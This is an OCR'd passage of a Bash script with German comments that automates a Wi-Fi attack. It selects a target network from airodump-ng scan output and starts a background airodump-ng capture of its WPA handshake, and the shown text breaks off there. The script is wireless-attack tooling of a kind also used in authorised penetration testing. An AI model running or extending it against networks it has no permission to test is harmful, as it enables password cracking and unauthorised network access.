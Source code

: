         if [ -z "$network_info" ]; then
            log "${RED}Keine Netzwerke gefunden.${NC}"
            return 1
        fi
        
        # Extrahiere Informationen
        bssid=$(echo $network_info | cut -d, -f1)
        ssid=$(echo $network_info | cut -d, -f14 | tr -d ' ')
        channel=$(echo $network_info | cut -d, -f4 | tr -d ' ')
        
        # Prüfe auf leeren SSID (verstecktes Netzwerk)
        if [ -z "$ssid" ] || [ "$ssid" = " " ]; then
            ssid="HiddenNetwork_$(date +%s)"
        fi
    else
        # Verwende das vorgegebene Ziel
        bssid=$TARGET_BSSID
        network_info=$(grep "$TARGET_BSSID" "$csv_file")
        ssid=$(echo $network_info | cut -d, -f14 | tr -d ' ')
        channel=$TARGET_CHANNEL
        
        if [ -z "$channel" ]; then
            channel=$(echo $network_info | cut -d, -f4 | tr -d ' ')
        fi
        
        if [ -z "$ssid" ] || [ "$ssid" = " " ]; then
            ssid="TargetNetwork_$(date +%s)"
        fi
    fi
    
    log "${GREEN}Ausgewähltes Netzwerk: SSID=$ssid, BSSID=$bssid, Kanal=$channel${NC}"
    
    # Gib die Informationen zurück
    echo "$bssid,$channel,$ssid"
}

# Handshake aufzeichnen
capture_handshake() {
    local mon_interface=$1
    local bssid=$2
    local channel=$3
    local ssid=$4
    local output_name="$OUTPUT_DIR/handshakes/$ssid"
    
    log "${YELLOW}Starte Capture auf Netzwerk $ssid ($bssid) auf Kanal $channel...${NC}"
    
    # Starte airodump-ng im Hintergrund
    airodump-ng --bssid $bssid -c $channel -w "$output_name" $mon_interface > /dev/null 2>&1 &
    local airodump_pid=$!
    